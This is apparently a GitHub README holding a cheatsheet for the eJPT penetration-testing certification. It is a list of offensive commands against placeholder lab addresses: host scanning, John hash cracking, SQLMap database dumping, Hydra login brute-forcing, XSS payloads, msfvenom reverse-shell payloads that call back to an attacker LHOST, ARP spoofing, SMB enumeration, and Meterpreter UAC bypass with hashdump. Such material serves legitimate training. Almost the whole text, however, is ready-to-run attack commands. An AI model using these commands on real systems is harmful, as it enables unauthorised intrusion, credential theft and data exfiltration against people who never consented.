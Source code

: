 # eJPT-Cheatsheet
This is a Cheatsheet for eJPT Exam & Course.

## Nmap
```sh
nmap -sn 10.10.10.0/24\                              #Host Discover
nmap -sV -p- -iL targets -oN nmap.initial -v\ 
nmap -A -p- -iL targets -oN nmap.aggressive -v\
nmap -p<port> --script=vuln -v <target-IP>           #Vulnerabillity Assessment
```
## fPing
```sh
fping -a -g 10.10.10.0/24 2>/dev/null > targets       #Host Discover
``` 
## IP Route
**Syntax**\
ip route add \<Network-range\> via \<router-IP\> dev \<interface\>
```sh
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0

ip route    # Checking defined routes in linux
route       # Checking defined routes in linux
route print     # Checking defined routes in windows
```
## John
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5\
unshadow passwd shadow > unshadowed.txt\
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```
## dirbuster

![alt text](https://github.com/SattamInfosec/SattamInfosec/blob/main/Dirbuster.PNG)


## Gobuster 
```sh
gobuster dir -u http://example.com -w /usr/usr/wordlists/dirb/common.txt 

gobuster dir -u http://example.com -w /usr/usr/wordlists/dirb/common.txt -s 302
```


## Netcat
**Listening for reverse shell**\
```sh
nc -nvlp 1234
```
**Banner Grabbing**\
```sh
nc -nv 10.10.10.10 \<port\>
```
## SQLMap
#### Check if injection exists
```sh
sqlmap -r Post.req
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin"
```
#### Get database if injection Exists
```sh
sqlmap -r login.req --dbs
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" --dbs
```
#### Get Tables in a Database
```sh
sqlmap -r login.req -D dbname --tables
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables
```
#### Get data in a Database tables
```sh
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump
```

## Hydra
**SSH Login Bruteforcing**\
```sh
hydra -L userslist -P passwordslist ftp://10.10.10.10
hydra -l root -P passwordslist ssh://10.10.10.10 
hydra -L userlist -p password123 ftp://10.10.10.10
```sh

**HTTP POST Form**\
```sh
hydra http://10.10.10.10/ http-post-form "/login.php:user=^USER^&password=^PASS^:Incorrect credentials" -L usernames.txt -P passwords.txt -f -V
```

*You will know which wordlists to use when the time comes*


## XSS
```sh
\<script\>alert(1)\</script\>\
\<ScRiPt\>alert(1)\</ScRiPt\>
```
*This is a great filter bypass cheatsheet*\
https://owasp.org/www-community/xss-filter-evasion-cheatsheet

## XSS via GET & POST Request

![alt text](https://raw.githubusercontent.com/SattamInfosec/SattamInfosec/main/XSS%20Via%20GET%20%26%20POST.PNG)

## msfvenom shells
**JSP Java Meterpreter Reverse TCP**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp

**WAR**\
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war

**PHP**\
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php\
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

## Metasploit Meterpreter autoroute
run autoroute -s 10.10.10.0/24

## ARPSpoof
echo 1 > /proc/sys/net/ipv4/ip_forward\
arpspoof -i <interface> -t <target> -r <host>\
arpspoof -i tap0 -t 10.100.13.37 -r 10.100.13.36

## SMB Enumeration
**Get shares, users, groups, password policy**\
smbclient -L //10.10.10.10/\
enum4linux -U -M -S -P -G 10.10.10.10\
nmap --script=smb-enum-users,smb-os-discovery,smb-enum-shares,smb-enum-groups,smb-enum-domains 10.10.10.10 -p 135,139,445 -v\
nmap -p445 --script=smb-vuln-* 10.10.10.10 -v

**Access Share**\
smbclient //10.10.10.10/share_name

## FTP Enumeration
nmap --script=ftp-anon 10.10.10.10 -p21 -v\
nmap -A -p21 10.10.10.10 -v

**Login to FTP server**\
ftp 10.10.10.10\

## FTP server Commands 
```sh
get filename               #to Receive file\
put filename >             #to upload file \
cd /../.. >                #to Change remote working directory\
ls /.. >                   #to List contents of remote directory
```
## Meterpreter
ps\
getuid\
getpid\
getsystem\
ps -U SYSTEM

**CHECK UAC/Privileges**\
run post/windows/gather/win_privs

**BYPASS UAC**\
*Background the session first*\
exploit/windows/local/bypassuac\
set session

**After PrivEsc**\
migrate \<pid\>\
hashdump
  
## Windows Command Line
**To search for a file starting from current directory**\
dir /b/s "\*.conf\*"\
dir /b/s "\*.txt\*"\
dir /b/s "\*filename\*"

**Check routing table**\
route print\
netstat -r

**Check Users**\
net users

**List drives on the machine**\
wmic logicaldisk get Caption,Description,providername


